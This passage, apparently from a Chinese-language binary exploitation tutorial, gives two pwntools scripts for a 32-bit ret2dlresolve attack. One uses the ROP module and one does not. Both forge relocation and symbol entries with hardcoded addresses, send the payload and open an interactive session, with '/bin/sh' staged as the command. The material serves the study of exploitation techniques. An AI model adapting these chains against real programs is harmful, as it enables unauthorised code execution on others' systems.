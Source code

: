 ```python
r_info = (index_dynsym << 8) | 0x7
fake_write_reloc = flat([write_got, r_info])

rop.raw(plt0)
rop.raw(index_offset)
## fake ret addr of write
rop.raw('bbbb')
rop.raw(1)
rop.raw(base_stage + 80)
rop.raw(len(sh))
rop.raw(fake_write_reloc)  # fake write reloc
rop.raw('a' * align)  # padding
rop.raw(fake_write_sym)  # fake write symbol
rop.raw('write\x00')  # there must be a \x00 to mark the end of string
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()
```

非ROP模块版：

```python
...
cmd = "/bin/sh"
plt_0 = 0x08048380
rel_plt = 0x08048330
index_offset = (base_stage + 28) - rel_plt
write_got = elf.got['write']
dynsym = 0x080481d8
dynstr = 0x08048278
fake_sym_addr = base_stage + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10
r_info = (index_dynsym << 8) | 0x7
fake_reloc = p32(write_got) + p32(r_info)
st_name = (fake_sym_addr + 0x10) - dynstr # 加0x10因为Elf32_Sym的大小为0x10
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

payload2 = 'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += 'AAAA'
payload2 += p32(1)
payload2 += p32(base_stage + 80)
payload2 += p32(len(cmd))
payload2 += fake_reloc # (base_stage+28)的位置
payload2 += 'B' * align
payload2 += fake_sym # (base_stage+36)的位置
payload2 += "write\x00"
payload2 += 'A' * (80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'A' * (100 - len(payload2))
r.sendline(payload2)
r.interactive()
```
